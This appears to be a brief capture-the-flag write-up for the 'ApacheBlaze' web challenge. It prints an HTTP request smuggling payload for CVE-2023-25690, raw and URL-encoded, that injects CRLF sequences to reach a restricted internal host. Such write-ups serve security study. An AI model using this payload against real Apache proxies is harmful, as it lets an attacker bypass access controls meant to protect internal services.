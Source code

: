 # ApacheBlaze Write-up

Category: Web

CHALLENGE DESCRIPTION

Step into the ApacheBlaze universe, a world of arcade clicky games. 
Rumor has it that by playing certain games, you have the chance to win a grand prize. However, 
before you can dive into the fun, you'll need to crack a puzzle.

![image](https://github.com/user-attachments/assets/185e2877-af20-40e1-bc0b-fe6d62670404)

This game is currently available only from dev.apacheblaze.local.

Request

![image](https://github.com/user-attachments/assets/876517c1-0908-4fa0-a070-c93d823646d7)

HTTP Request Smuggling

CVE-2023–25690

    GET /api/games/click_topia HTTP/1.1\r\nHost: dev.apacheblaze.local\r\n\r\nGET /HTTP/1.1

URL encode

    GET /api/games/click_topia%20HTTP/1.1%0d%0aHost:%20dev.apacheblaze.local%0d%0a%0d%0aGET%20/ HTTP/1.1

![image](https://github.com/user-attachments/assets/4879cee0-13bd-4a6d-b946-b1200fb5d69e)
